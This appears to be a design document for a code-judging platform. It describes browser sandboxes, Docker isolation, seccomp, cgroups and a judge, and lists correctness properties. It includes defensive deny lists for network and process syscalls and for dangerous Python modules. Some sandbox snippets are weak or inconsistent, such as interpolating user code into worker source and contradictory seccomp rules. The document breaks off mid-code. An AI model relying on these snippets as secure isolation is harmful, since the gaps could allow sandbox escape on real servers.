

# Let'sCode Execution Engine - Design Document

## Overview

Let'sCode is a scalable code execution platform that demonstrates technical depth through innovative approaches to code execution, security, and scalability. Rather than relying on existing execution APIs, the system implements custom solutions across three execution tiers:

1. **Client-Side Execution Tier**: Leverages browser capabilities (Web Workers, WebAssembly, JavaScript interpreters) for instant feedback and zero server cost
2. **Serverless Execution Tier**: Custom-built containerized execution with advanced isolation techniques
3. **Hybrid Intelligence Layer**: Dynamically routes submissions to optimal execution strategies

The architecture prioritizes security through defense-in-depth, scalability through intelligent resource management, and innovation through novel execution techniques.

## Architecture

### High-Level Architecture

```
┌─────────────────────────────────────────────────────────────────┐
│                         Frontend Layer                          │
│  ┌──────────────┐  ┌──────────────┐  ┌────────────────────┐   │
│  │   Monaco     │  │  Execution   │  │   WebSocket        │   │
│  │   Editor     │  │  Controller  │  │   Client           │   │
│  └──────────────┘  └──────────────┘  └────────────────────┘   │
└─────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│                    Execution Strategy Router                    │
│              (Analyzes code & selects execution path)           │
└─────────────────────────────────────────────────────────────────┘
           │                    │                    │
           ▼                    ▼                    ▼
┌──────────────────┐  ┌──────────────────┐  ┌──────────────────┐
│   Client-Side    │  │   Serverless     │  │    Hybrid        │
│   Execution      │  │   Execution      │  │    Execution     │
│                  │  │                  │  │                  │
│ • Web Workers    │  │ • Containers     │  │ • Pre-warming    │
│ • WASM           │  │ • Custom         │  │ • Speculative    │
│ • JS Interpreters│  │   Orchestration  │  │   Execution      │
└──────────────────┘  └──────────────────┘  └──────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│                      Isolation & Security Layer                 │
│  • Seccomp-BPF  • Namespaces  • Cgroups  • Resource Limits    │
└─────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│                    Judge & Evaluation Engine                    │
│         • Test Case Runner  • Verdict Generator                 │
└─────────────────────────────────────────────────────────────────┘
```

### Component Interaction Flow



## Components and Interfaces

### 1. Frontend Components

#### Monaco Editor Integration
```typescript
interface EditorConfig {
  language: SupportedLanguage;
  theme: 'vs-dark' | 'vs-light';
  readOnly: boolean;
  minimap: { enabled: boolean };
  fontSize: number;
}

interface EditorInstance {
  getValue(): string;
  setValue(code: string): void;
  setLanguage(lang: SupportedLanguage): void;
  onDidChangeContent(callback: () => void): void;
}
```

#### Execution Controller
```typescript
interface SubmissionRequest {
  code: string;
  language: SupportedLanguage;
  problemId: string;
  userId: string;
  isCustomTest: boolean;
  customInput?: string;
}

interface ExecutionController {
  submit(request: SubmissionRequest): Promise<SubmissionId>;
  runCustomTest(code: string, input: string): Promise<ExecutionResult>;
  cancelExecution(submissionId: SubmissionId): Promise<void>;
  subscribeToUpdates(submissionId: SubmissionId, callback: StatusCallback): void;
}
```

### 2. Execution Strategy Router

The router analyzes code characteristics and system state to select the optimal execution path.

```typescript
interface ExecutionStrategy {
  type: 'client' | 'server' | 'hybrid';
  reason: string;
  estimatedCost: number;
  estimatedLatency: number;
}

interface StrategyRouter {
  analyzeCode(code: string, language: SupportedLanguage): CodeAnalysis;
  selectStrategy(analysis: CodeAnalysis, systemLoad: SystemMetrics): ExecutionStrategy;
  routeSubmission(submission: SubmissionRequest, strategy: ExecutionStrategy): Promise<ExecutionResult>;
}

interface CodeAnalysis {
  complexity: 'low' | 'medium' | 'high';
  hasUnsafeOperations: boolean;
  estimatedMemory: number;
  estimatedCPU: number;
  requiresCompilation: boolean;
  canRunInBrowser: boolean;
}
```

**Strategy Selection Algorithm:**
```
1. Parse code and detect:
   - File I/O operations
   - Network calls
   - Process spawning
   - Native library imports
   
2. Estimate resource requirements:
   - Loop complexity analysis
   - Recursion depth estimation
   - Memory allocation patterns
   
3. Check system state:
   - Current server load
   - Available client-side workers
   - Queue depth
   
4. Select strategy:
   - IF safe AND simple AND browser-supported → Client-Side
   - ELSE IF high-load AND can-precompile → Hybrid with pre-warming
   - ELSE → Server-Side
```

### 3. Client-Side Execution Engine

#### Web Worker Sandbox

```typescript
interface WorkerSandbox {
  execute(code: string, input: string, limits: ResourceLimits): Promise<ExecutionResult>;
  terminate(): void;
}

class WebWorkerExecutor implements WorkerSandbox {
  private worker: Worker;
  private timeout: NodeJS.Timeout;
  
  async execute(code: string, input: string, limits: ResourceLimits): Promise<ExecutionResult> {
    // Create isolated worker
    const workerCode = this.generateSandboxedWorker(code, input, limits);
    const blob = new Blob([workerCode], { type: 'application/javascript' });
    this.worker = new Worker(URL.createObjectURL(blob));
    
    // Set timeout
    this.timeout = setTimeout(() => {
      this.worker.terminate();
      throw new TimeLimitExceeded();
    }, limits.timeLimit);
    
    // Execute and collect results
    return new Promise((resolve, reject) => {
      this.worker.onmessage = (e) => {
        clearTimeout(this.timeout);
        resolve(e.data);
      };
      this.worker.onerror = (e) => {
        clearTimeout(this.timeout);
        reject(new RuntimeError(e.message));
      };
    });
  }
  
  private generateSandboxedWorker(code: string, input: string, limits: ResourceLimits): string {
    return `
      // Disable dangerous APIs
      self.importScripts = undefined;
      self.fetch = undefined;
      self.XMLHttpRequest = undefined;
      self.WebSocket = undefined;
      
      // Memory tracking
      let allocatedMemory = 0;
      const maxMemory = ${limits.memoryLimit};
      
      // Override Array/Object to track allocations
      const originalArray = Array;
      Array = new Proxy(originalArray, {
        construct(target, args) {
          const size = args[0] || 0;
          allocatedMemory += size * 8; // Rough estimate
          if (allocatedMemory > maxMemory) {
            throw new Error('Memory Limit Exceeded');
          }
          return new target(...args);
        }
      });
      
      // User code execution
      try {
        const userFunction = new Function('input', \`
          ${code}
          return main ? main(input) : null;
        \`);
        
        const result = userFunction(${JSON.stringify(input)});
        self.postMessage({ success: true, output: result });
      } catch (error) {
        self.postMessage({ success: false, error: error.message });
      }
    `;
  }
}
```

#### WebAssembly Execution

For languages like C++, Rust, we compile to WASM for secure browser execution:

```typescript
interface WASMExecutor {
  compile(code: string, language: 'cpp' | 'rust'): Promise<WebAssembly.Module>;
  execute(module: WebAssembly.Module, input: string): Promise<ExecutionResult>;
}

class WASMExecutionEngine implements WASMExecutor {
  async compile(code: string, language: 'cpp' | 'rust'): Promise<WebAssembly.Module> {
    // Use browser-based compilers (e.g., emscripten compiled to WASM)
    const compiler = await this.loadCompiler(language);
    const wasmBinary = await compiler.compile(code);
    return WebAssembly.compile(wasmBinary);
  }
  
  async execute(module: WebAssembly.Module, input: string): Promise<ExecutionResult> {
    // Create WASI-like environment with restricted capabilities
    const imports = {
      env: {
        memory: new WebAssembly.Memory({ initial: 256, maximum: 512 }),
        // Provide minimal stdio
        __stdio_write: this.createStdioWrite(),
        __stdio_read: this.createStdioRead(input),
        // Block dangerous syscalls
        __syscall_open: () => { throw new Error('File access denied'); },
        __syscall_socket: () => { throw new Error('Network access denied'); },
      }
    };
    
    const instance = await WebAssembly.instantiate(module, imports);
    return this.runWithTimeout(instance, 5000);
  }
}
```

#### JavaScript Interpreter for Python (Pyodide)

```typescript
class PyodideExecutor {
  private pyodide: any;
  
  async initialize() {
    // Load Pyodide (Python compiled to WASM)
    this.pyodide = await loadPyodide({
      indexURL: "https://cdn.jsdelivr.net/pyodide/v0.24.1/full/"
    });
    
    // Restrict imports
    await this.pyodide.runPythonAsync(`
      import sys
      # Block dangerous modules
      sys.modules['os'] = None
      sys.modules['subprocess'] = None
      sys.modules['socket'] = None
    `);
  }
  
  async execute(code: string, input: string): Promise<ExecutionResult> {
    try {
      // Inject input
      this.pyodide.globals.set('__input__', input);
      
      // Execute with timeout
      const result = await Promise.race([
        this.pyodide.runPythonAsync(code),
        this.timeoutPromise(5000)
      ]);
      
      return {
        success: true,
        output: String(result),
        executionTime: performance.now() - startTime
      };
    } catch (error) {
      return {
        success: false,
        error: error.message,
        verdict: 'Runtime Error'
      };
    }
  }
}
```

### 4. Serverless Execution Engine

#### Custom Container Orchestration

Instead of using existing platforms, we build a custom lightweight orchestration system:

```typescript
interface ContainerOrchestrator {
  createExecutionEnvironment(language: SupportedLanguage): Promise<ExecutionEnvironment>;
  executeInContainer(env: ExecutionEnvironment, code: string, input: string): Promise<ExecutionResult>;
  destroyEnvironment(env: ExecutionEnvironment): Promise<void>;
  scaleWorkerPool(targetSize: number): Promise<void>;
}

class CustomContainerOrchestrator implements ContainerOrchestrator {
  private workerPool: Map<string, ExecutionEnvironment>;
  private availableWorkers: Queue<ExecutionEnvironment>;
  
  async createExecutionEnvironment(language: SupportedLanguage): Promise<ExecutionEnvironment> {
    // Create minimal container with only necessary runtime
    const containerId = generateUUID();
    
    // Use Docker API directly for fine-grained control
    const container = await docker.createContainer({
      Image: `letscode-${language}:minimal`,
      HostConfig: {
        Memory: 512 * 1024 * 1024, // 512MB
        MemorySwap: 512 * 1024 * 1024, // No swap
        CpuQuota: 50000, // 50% of one core
        CpuPeriod: 100000,
        PidsLimit: 50, // Prevent fork bombs
        NetworkMode: 'none', // No network access
        ReadonlyRootfs: true, // Immutable filesystem
        SecurityOpt: ['no-new-privileges'],
        CapDrop: ['ALL'], // Drop all capabilities
        CapAdd: ['SETUID', 'SETGID'], // Only allow user switching
      },
      // Mount temporary workspace
      Volumes: {
        '/workspace': {}
      }
    });
    
    await container.start();
    
    return {
      id: containerId,
      container: container,
      language: language,
      createdAt: Date.now()
    };
  }
  
  async executeInContainer(
    env: ExecutionEnvironment,
    code: string,
    input: string
  ): Promise<ExecutionResult> {
    const startTime = Date.now();
    
    // Write code to container
    await this.writeToContainer(env.container, '/workspace/solution', code);
    await this.writeToContainer(env.container, '/workspace/input.txt', input);
    
    // Execute with comprehensive monitoring
    const exec = await env.container.exec({
      Cmd: this.getExecutionCommand(env.language),
      AttachStdout: true,
      AttachStderr: true,
      WorkingDir: '/workspace',
      User: 'nobody', // Run as unprivileged user
    });
    
    const stream = await exec.start();
    
    // Monitor execution with multiple safety mechanisms
    const result = await Promise.race([
      this.collectOutput(stream),
      this.timeoutPromise(5000, 'Time Limit Exceeded'),
      this.monitorResources(env.container)
    ]);
    
    return {
      ...result,
      executionTime: Date.now() - startTime
    };
  }
  
  private async monitorResources(container: Container): Promise<never> {
    const stats = await container.stats({ stream: true });
    
    for await (const stat of stats) {
      // Check memory usage
      if (stat.memory_stats.usage > stat.memory_stats.limit * 0.95) {
        throw new Error('Memory Limit Exceeded');
      }
      
      // Check for suspicious syscall patterns
      if (this.detectAnomalousActivity(stat)) {
        throw new Error('Suspicious Activity Detected');
      }
    }
  }
}
```

#### Advanced Isolation with Seccomp-BPF

```typescript
interface SeccompProfile {
  defaultAction: 'SCMP_ACT_KILL' | 'SCMP_ACT_ERRNO';
  syscalls: Array<{
    names: string[];
    action: 'SCMP_ACT_ALLOW' | 'SCMP_ACT_ERRNO';
  }>;
}

function generateSeccompProfile(language: SupportedLanguage): SeccompProfile {
  // Whitelist only necessary syscalls
  const baseSyscalls = [
    'read', 'write', 'close', 'fstat', 'mmap', 'munmap',
    'brk', 'rt_sigaction', 'rt_sigprocmask', 'exit_group'
  ];
  
  const languageSpecific = {
    'python': ['openat', 'stat', 'getcwd'],
    'cpp': ['execve', 'access'],
    'javascript': ['futex', 'set_robust_list']
  };
  
  return {
    defaultAction: 'SCMP_ACT_KILL',
    syscalls: [
      {
        names: [...baseSyscalls, ...(languageSpecific[language] || [])],
        action: 'SCMP_ACT_ALLOW'
      },
      // Explicitly block dangerous syscalls
      {
        names: ['socket', 'connect', 'bind', 'listen', 'accept', 'fork', 'clone', 'ptrace'],
        action: 'SCMP_ACT_ERRNO'
      }
    ]
  };
}
```

#### Linux Namespaces for Isolation

```typescript
interface NamespaceConfig {
  pid: boolean;      // Isolate process IDs
  net: boolean;      // Isolate network stack
  mnt: boolean;      // Isolate mount points
  ipc: boolean;      // Isolate IPC
  uts: boolean;      // Isolate hostname
  user: boolean;     // Isolate user IDs
}

function setupNamespaces(): NamespaceConfig {
  return {
    pid: true,   // Container sees only its own processes
    net: true,   // No network access
    mnt: true,   // Isolated filesystem view
    ipc: true,   // No shared memory with host
    uts: true,   // Isolated hostname
    user: true   // Map to unprivileged user
  };
}
```

#### Cgroups for Resource Control

```typescript
interface CgroupLimits {
  memory: {
    limit: number;           // Hard limit in bytes
    softLimit: number;       // Soft limit for OOM killer
    swapLimit: number;       // Swap limit
  };
  cpu: {
    quota: number;           // CPU time quota
    period: number;          // Period for quota
    shares: number;          // Relative CPU weight
  };
  pids: {
    max: number;             // Maximum number of processes
  };
  io: {
    readBps: number;         // Read bytes per second
    writeBps: number;        // Write bytes per second
  };
}

function createCgroupLimits(): CgroupLimits {
  return {
    memory: {
      limit: 512 * 1024 * 1024,      // 512MB hard limit
      softLimit: 256 * 1024 * 1024,  // 256MB soft limit
      swapLimit: 0                    // No swap
    },
    cpu: {
      quota: 50000,    // 0.5 CPU cores
      period: 100000,
      shares: 1024
    },
    pids: {
      max: 50          // Prevent fork bombs
    },
    io: {
      readBps: 10 * 1024 * 1024,   // 10MB/s
      writeBps: 10 * 1024 * 1024   // 10MB/s
    }
  };
}
```

### 5. Hybrid Execution & Optimization

#### Pre-warming Strategy

```typescript
class PrewarmingEngine {
  private warmContainers: Map<SupportedLanguage, Queue<ExecutionEnvironment>>;
  private userBehaviorModel: BehaviorPredictor;
  
  async predictAndPrewarm(userId: string): Promise<void> {
    // Analyze user's recent submissions
    const predictions = await this.userBehaviorModel.predict(userId);
    
    // Pre-warm containers for likely languages
    for (const { language, probability } of predictions) {
      if (probability > 0.7) {
        await this.prewarmContainer(language);
      }
    }
  }
  
  private async prewarmContainer(language: SupportedLanguage): Promise<void> {
    const env = await this.orchestrator.createExecutionEnvironment(language);
    
    // Pre-compile common libraries
    await this.preloadLibraries(env, language);
    
    // Add to warm pool
    if (!this.warmContainers.has(language)) {
      this.warmContainers.set(language, new Queue());
    }
    this.warmContainers.get(language).enqueue(env);
  }
  
  async getWarmContainer(language: SupportedLanguage): Promise<ExecutionEnvironment> {
    const queue = this.warmContainers.get(language);
    if (queue && !queue.isEmpty()) {
      return queue.dequeue();
    }
    // Fallback to cold start
    return this.orchestrator.createExecutionEnvironment(language);
  }
}
```

#### Speculative Execution

```typescript
class SpeculativeExecutor {
  async speculativelyExecute(submission: SubmissionRequest): Promise<void> {
    // Start execution before user explicitly submits
    // Useful when user is typing and likely to submit soon
    
    const analysis = await this.analyzeTypingPattern(submission.userId);
    
    if (analysis.likelyToSubmit && analysis.confidence > 0.8) {
      // Start container provisioning
      this.prewarmingEngine.predictAndPrewarm(submission.userId);
      
      // If code looks complete, start compilation
      if (this.looksComplete(submission.code)) {
        await this.precompile(submission.code, submission.language);
      }
    }
  }
  
  private looksComplete(code: string): boolean {
    // Heuristics: has main function, balanced braces, etc.
    return this.hasMainFunction(code) && 
           this.hasBalancedBraces(code) &&
           this.hasReturnStatement(code);
  }
}
```

### 6. Judge & Evaluation Engine

```typescript
interface TestCase {
  input: string;
  expectedOutput: string;
  timeLimit: number;
  memoryLimit: number;
}

interface JudgeEngine {
  evaluate(executionResult: ExecutionResult, testCases: TestCase[]): Promise<Verdict>;
  compareOutput(actual: string, expected: string, mode: ComparisonMode): boolean;
}

class StandardJudge implements JudgeEngine {
  async evaluate(executionResult: ExecutionResult, testCases: TestCase[]): Promise<Verdict> {
    const results: TestCaseResult[] = [];
    
    for (const testCase of testCases) {
      const result = await this.runTestCase(executionResult.code, testCase);
      results.push(result);
      
      // Early termination on first failure (configurable)
      if (!result.passed && this.config.stopOnFirstFailure) {
        break;
      }
    }
    
    return this.generateVerdict(results);
  }
  
  compareOutput(actual: string, expected: string, mode: ComparisonMode): boolean {
    // Normalize based on mode
    const normalizedActual = this.normalize(actual, mode);
    const normalizedExpected = this.normalize(expected, mode);
    
    return normalizedActual === normalizedExpected;
  }
  
  private normalize(output: string, mode: ComparisonMode): string {
    let normalized = output;
    
    if (mode.trimWhitespace) {
      normalized = normalized.trim();
    }
    
    if (mode.ignoreTrailingSpaces) {
      normalized = normalized.split('\n')
        .map(line => line.trimEnd())
        .join('\n');
    }
    
    if (mode.ignoreEmptyLines) {
      normalized = normalized.split('\n')
        .filter(line => line.trim().length > 0)
        .join('\n');
    }
    
    return normalized;
  }
  
  private generateVerdict(results: TestCaseResult[]): Verdict {
    const allPassed = results.every(r => r.passed);
    
    if (allPassed) {
      return {
        status: 'Accepted',
        passedTests: results.length,
        totalTests: results.length,
        maxTime: Math.max(...results.map(r => r.executionTime)),
        maxMemory: Math.max(...results.map(r => r.memoryUsed))
      };
    }
    
    const firstFailure = results.find(r => !r.passed);
    return {
      status: firstFailure.verdict,
      passedTests: results.filter(r => r.passed).length,
      totalTests: results.length,
      failedTestCase: firstFailure.testCaseNumber,
      errorMessage: firstFailure.error
    };
  }
}
```

### 7. Real-Time Communication

```typescript
interface WebSocketServer {
  onSubmission(callback: (submission: SubmissionRequest) => void): void;
  sendUpdate(userId: string, update: StatusUpdate): void;
  broadcastSystemStatus(status: SystemStatus): void;
}

class ExecutionStatusStreamer {
  private wsServer: WebSocketServer;
  
  async streamExecution(submissionId: string, userId: string): Promise<void> {
    // Send initial status
    this.sendUpdate(userId, {
      submissionId,
      status: 'Queued',
      queuePosition: await this.getQueuePosition(submissionId)
    });
    
    // Stream test case results as they complete
    for await (const testResult of this.executeTests(submissionId)) {
      this.sendUpdate(userId, {
        submissionId,
        status: 'Running',
        currentTest: testResult.testNumber,
        testResult: testResult
      });
    }
    
    // Send final verdict
    const verdict = await this.getFinalVerdict(submissionId);
    this.sendUpdate(userId, {
      submissionId,
      status: 'Completed',
      verdict: verdict
    });
  }
  
  private sendUpdate(userId: string, update: StatusUpdate): void {
    this.wsServer.sendUpdate(userId, update);
  }
}
```

## Data Models

### Submission Model

```typescript
interface Submission {
  id: string;
  userId: string;
  problemId: string;
  code: string;
  language: SupportedLanguage;
  status: SubmissionStatus;
  verdict?: Verdict;
  createdAt: Date;
  startedAt?: Date;
  completedAt?: Date;
  executionStrategy: ExecutionStrategy;
  testResults: TestCaseResult[];
}

type SubmissionStatus = 
  | 'Queued'
  | 'Running'
  | 'Judging'
  | 'Completed'
  | 'Failed'
  | 'Cancelled';
```

### Execution Environment Model

```typescript
interface ExecutionEnvironment {
  id: string;
  type: 'worker' | 'container' | 'wasm';
  language: SupportedLanguage;
  status: 'idle' | 'busy' | 'terminated';
  createdAt: number;
  lastUsed: number;
  executionCount: number;
  container?: Container;
  worker?: Worker;
}
```

### Problem Model

```typescript
interface Problem {
  id: string;
  title: string;
  description: string;
  difficulty: 'Easy' | 'Medium' | 'Hard';
  timeLimit: number;
  memoryLimit: number;
  testCases: TestCase[];
  hiddenTestCases: TestCase[];
  comparisonMode: ComparisonMode;
  supportedLanguages: SupportedLanguage[];
}
```

### Resource Metrics Model

```typescript
interface ResourceMetrics {
  submissionId: string;
  cpuTime: number;           // milliseconds
  wallTime: number;          // milliseconds
  peakMemory: number;        // bytes
  syscallCount: number;
  contextSwitches: number;
  pageFaults: number;
}
```

## 
Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system-essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

After analyzing all acceptance criteria, we have identified the following correctness properties that must hold across all executions. These properties will be validated through property-based testing.

### Core Execution Properties

**Property 1: Empty code rejection**
*For any* submission with empty or whitespace-only code, the system should reject it before processing and return a validation error.
**Validates: Requirements 2.1**

**Property 2: Submission ID uniqueness**
*For any* set of concurrent submissions, all generated submission IDs should be unique.
**Validates: Requirements 2.2**

**Property 3: Status transition correctness**
*For any* submission that begins execution, the status should transition from "Queued" to "Running" before any test case execution occurs.
**Validates: Requirements 2.4**

**Property 4: Persistence after completion**
*For any* completed submission, querying the database with its submission ID should return the stored verdict and execution metadata.
**Validates: Requirements 2.5**

### Client-Side Execution Properties

**Property 5: Worker isolation for JavaScript**
*For any* JavaScript submission, execution should occur in a Web Worker, not the main thread.
**Validates: Requirements 3.1**

**Property 6: Timeout enforcement**
*For any* client-side execution that runs longer than the time limit, the worker should be terminated and a "Time Limit Exceeded" verdict should be returned.
**Validates: Requirements 3.2**

**Property 7: API restriction enforcement**
*For any* client-side code that attempts to call restricted APIs (fetch, XMLHttpRequest, WebSocket, importScripts), the call should be blocked and a security violation verdict should be returned.
**Validates: Requirements 3.3**

**Property 8: Memory limit enforcement**
*For any* client-side execution that exceeds memory limits, the worker should be terminated and a "Memory Limit Exceeded" verdict should be returned.
**Validates: Requirements 3.4**

**Property 9: Fallback to server-side**
*For any* code that contains unsafe operations (file I/O, process spawning, native imports), the execution strategy should route to server-side execution.
**Validates: Requirements 3.5**

### Server-Side Isolation Properties

**Property 10: Container isolation**
*For any* server-side submission, execution should occur in an isolated container with its own filesystem, process, and network namespace.
**Validates: Requirements 4.1**

**Property 11: Concurrent execution isolation**
*For any* two submissions executing concurrently, modifications made by one execution should not be visible to the other execution.
**Validates: Requirements 4.2**

**Property 12: Resource limit configuration**
*For any* provisioned execution environment, CPU, memory, and network limits should be configured before code execution begins.
**Validates: Requirements 4.3**

**Property 13: Environment cleanup**
*For any* completed server-side execution, the container should be destroyed and all allocated resources should be released within 5 seconds.
**Validates: Requirements 4.4**

### Security Properties

**Property 14: Filesystem isolation**
*For any* code that attempts to access files outside the designated temporary directory, the access should be denied and return a permission error.
**Validates: Requirements 5.1**

**Property 15: Network blocking**
*For any* code that attempts to make network connections (socket, connect, HTTP requests), the attempt should be blocked and fail immediately.
**Validates: Requirements 5.2**

**Property 16: Process spawn limiting**
*For any* code that attempts to spawn more than the configured maximum number of processes, subsequent spawn attempts should fail.
**Validates: Requirements 5.3**

**Property 17: Syscall whitelisting**
*For any* code that attempts to make dangerous system calls (ptrace, reboot, module loading), the syscall should be blocked by seccomp and the process should be terminated.
**Validates: Requirements 5.4**

**Property 18: Immediate termination on violation**
*For any* code that violates security policies, execution should be terminated within 100 milliseconds and a "Runtime Error" verdict should be returned.
**Validates: Requirements 5.5**

### Judging Properties

**Property 19: Output comparison correctness**
*For any* execution output and expected output, if they are identical after normalization, the comparison should return true.
**Validates: Requirements 6.1, 6.2**

**Property 20: Accepted verdict for all passing**
*For any* submission where all test cases produce correct output within limits, the final verdict should be "Accepted".
**Validates: Requirements 6.3**

**Property 21: Wrong Answer identification**
*For any* submission where at least one test case produces incorrect output, the verdict should be "Wrong Answer" and should identify the first failing test case number.
**Validates: Requirements 6.4**

**Property 22: Time limit verdict**
*For any* execution that exceeds the configured time limit, the verdict should be "Time Limit Exceeded" regardless of output correctness.
**Validates: Requirements 6.5**

### Scalability Properties

**Property 23: Load balancing distribution**
*For any* set of N submissions arriving simultaneously with M available workers (N > M), each worker should receive approximately N/M submissions.
**Validates: Requirements 7.1**

**Property 24: Immediate worker reuse**
*For any* worker that completes a submission while the queue is non-empty, the next queued submission should be assigned to that worker within 100 milliseconds.
**Validates: Requirements 7.2**

**Property 25: Scale-up on high load**
*For any* system state where queue depth exceeds the scale-up threshold, additional worker instances should be provisioned within 30 seconds.
**Validates: Requirements 7.3**

**Property 26: Scale-down on low load**
*For any* system state where workers have been idle for longer than the scale-down threshold, idle workers should be terminated.
**Validates: Requirements 7.4**

### Real-Time Communication Properties

**Property 27: Status update streaming**
*For any* submission being processed, status updates should be sent to the client via WebSocket at each state transition.
**Validates: Requirements 8.1**

**Property 28: Immediate test case reporting**
*For any* test case that completes, the result should be sent to the client before the next test case begins execution.
**Validates: Requirements 8.2**

**Property 29: Output stream separation**
*For any* execution that produces both stdout and stderr output, the two streams should be captured and reported separately.
**Validates: Requirements 8.3**

**Property 30: Verdict completeness**
*For any* final verdict, it should include execution time, peak memory usage, verdict status, and test case results.
**Validates: Requirements 8.4**

**Property 31: Compilation error detail**
*For any* submission that fails compilation, the error message should include line numbers and error descriptions from the compiler.
**Validates: Requirements 8.5**

### Innovation Properties

**Property 32: WASM compilation for compatible languages**
*For any* C++ or Rust submission when WebAssembly is supported, the code should be compiled to WASM for browser execution.
**Validates: Requirements 9.1**

**Property 33: JS interpreter usage**
*For any* Python submission when Pyodide is available, execution should use the JavaScript-based interpreter for client-side execution.
**Validates: Requirements 9.2**

**Property 34: Multiple isolation layers**
*For any* server-side execution environment, at least three isolation techniques (namespaces, cgroups, seccomp) should be configured.
**Validates: Requirements 9.4**

### Resource Monitoring Properties

**Property 35: CPU time enforcement precision**
*For any* execution with a time limit T, if execution exceeds T, termination should occur within T + 100ms.
**Validates: Requirements 10.1**

**Property 36: Memory limit enforcement precision**
*For any* execution with a memory limit M, if memory usage exceeds M, termination should occur before reaching M + 10MB.
**Validates: Requirements 10.2**

**Property 37: Anomaly detection termination**
*For any* execution that makes more than 10,000 system calls per second, execution should be terminated as anomalous behavior.
**Validates: Requirements 10.3**

**Property 38: Fast termination on limit breach**
*For any* execution that breaches resource limits, termination should complete within 100 milliseconds.
**Validates: Requirements 10.4**

**Property 39: Metrics reporting completeness**
*For any* completed execution, the result should include peak memory usage and total CPU time consumed.
**Validates: Requirements 10.5**

### Test Case Management Properties

**Property 40: Sequential execution in single environment**
*For any* problem with multiple test cases, when all test cases use the same language and limits, they should execute in a single environment without recreation.
**Validates: Requirements 11.1**

**Property 41: Early termination on failure**
*For any* problem configured with stop-on-first-failure, when a test case fails, remaining test cases should not be executed.
**Validates: Requirements 11.2**

**Property 42: Input streaming for large test cases**
*For any* test case with input larger than 100MB, the input should be streamed to the execution environment rather than loaded entirely into memory.
**Validates: Requirements 11.3**

**Property 43: Output comparison streaming**
*For any* test case with expected output larger than 100MB, output comparison should occur in chunks without loading the entire output into memory.
**Validates: Requirements 11.4**

### Hybrid Execution Properties

**Property 44: Strategy analysis for all submissions**
*For any* submission received, the execution engine should perform code analysis and produce an execution strategy before execution begins.
**Validates: Requirements 12.1**

**Property 45: Client-side preference for simple code**
*For any* submission that is analyzed as simple and safe, the selected execution strategy should be client-side.
**Validates: Requirements 12.2**

**Property 46: Server-side routing for complex code**
*For any* submission that is analyzed as computationally heavy, the selected execution strategy should be server-side.
**Validates: Requirements 12.3**

**Property 47: Load-based strategy selection**
*For any* submission in a language supporting both client and server execution, when server load exceeds 80%, the strategy should prefer client-side execution.
**Validates: Requirements 12.4**

**Property 48: Strategy logging**
*For any* execution strategy selection, the decision rationale should be logged with the submission ID.
**Validates: Requirements 12.5**

### Custom Test Properties

**Property 49: Custom test isolation from history**
*For any* custom test execution, the submission should not appear in the user's submission history.
**Validates: Requirements 13.1**

**Property 50: Consistent constraints for custom tests**
*For any* custom test execution, the same security and resource constraints should be applied as official submissions.
**Validates: Requirements 13.2**

**Property 51: Custom test non-persistence**
*For any* custom test execution, querying the submissions database should not return the custom test.
**Validates: Requirements 13.3**

**Property 52: Custom test cancellation**
*For any* running custom test, sending a cancellation request should terminate execution within 1 second.
**Validates: Requirements 13.5**

### Monitoring and Logging Properties

**Property 53: Metrics logging for all executions**
*For any* submission execution, metrics including execution time, memory usage, and verdict should be written to the metrics database.
**Validates: Requirements 14.1**

**Property 54: Alert emission on degradation**
*For any* system state where performance metrics exceed configured thresholds, alerts should be emitted within 10 seconds.
**Validates: Requirements 14.2**

**Property 55: Trace retention for failures**
*For any* submission that results in a non-Accepted verdict, detailed execution traces should be retained for at least 7 days.
**Validates: Requirements 14.4**

### Security Logging Properties

**Property 56: Security violation logging**
*For any* code that violates security policies, a log entry should be created containing submission ID, user ID, violated policy, and attempted action.
**Validates: Requirements 15.1, 15.5**

**Property 57: Account flagging for suspicious activity**
*For any* user account that triggers more than 5 security violations within 1 hour, the account should be flagged for review.
**Validates: Requirements 15.2**

**Property 58: Forensic evidence preservation**
*For any* security incident, the system should preserve the submitted code, input data, and execution traces for at least 30 days.
**Validates: Requirements 15.3**

## Error Handling

### Client-Side Error Handling

```typescript
class ClientExecutionError extends Error {
  constructor(
    public type: 'timeout' | 'memory' | 'security' | 'runtime',
    public details: string
  ) {
    super(`Client execution error: ${type}`);
  }
}

async function handleClientExecution(code: string): Promise<ExecutionResult> {
  try {
    return await executeInWorker(code);
  } catch (error) {
    if (error instanceof ClientExecutionError) {
      switch (error.type) {
        case 'timeout':
          return { verdict: 'Time Limit Exceeded', error: error.details };
        case 'memory':
          return { verdict: 'Memory Limit Exceeded', error: error.details };
        case 'security':
          return { verdict: 'Security Violation', error: error.details };
        case 'runtime':
          return { verdict: 'Runtime Error', error: error.details };
      }
    }
    // Fallback to server-side on unexpected errors
    return await executeOnServer(code);
  }
}
```

### Server-Side Error Handling

```typescript
class ServerExecutionError extends Error {
  constructor(
